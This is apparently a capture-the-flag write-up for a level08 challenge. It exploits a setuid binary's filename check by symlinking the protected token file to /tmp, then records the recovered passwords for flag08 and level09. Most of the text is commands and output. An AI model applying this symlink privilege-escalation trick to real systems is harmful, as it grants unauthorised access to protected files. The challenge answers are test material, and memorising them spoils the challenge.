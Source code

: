 ## Check files in home

ls -la

->  -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token

## check level08, this files have permissions in flag08 when executed then with string

string level08

```bash
    %s [file to read]
    token
    You may not access '%s'
    Unable to open %s
    Unable to read fd %d
```

## to exploit then we need to use "token" but we cant open because they only have permissions by flag08
## to open the file and be able to use it we will have to create a symbolic link

```bash
	ln -s ~/token /tmp/test
```

## finally execute level08 script with argument link

./level08 /tmp/test

-> quif5eloekouj29ke0vouxean

## Log in to user flag08

su flga08 (password: quif5eloekouj29ke0vouxean)

## execute getflag

getflag

->  Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

## Log in to user level09

su level09 (password: 25749xKZ8L7DkSCwJkT9dyv6f)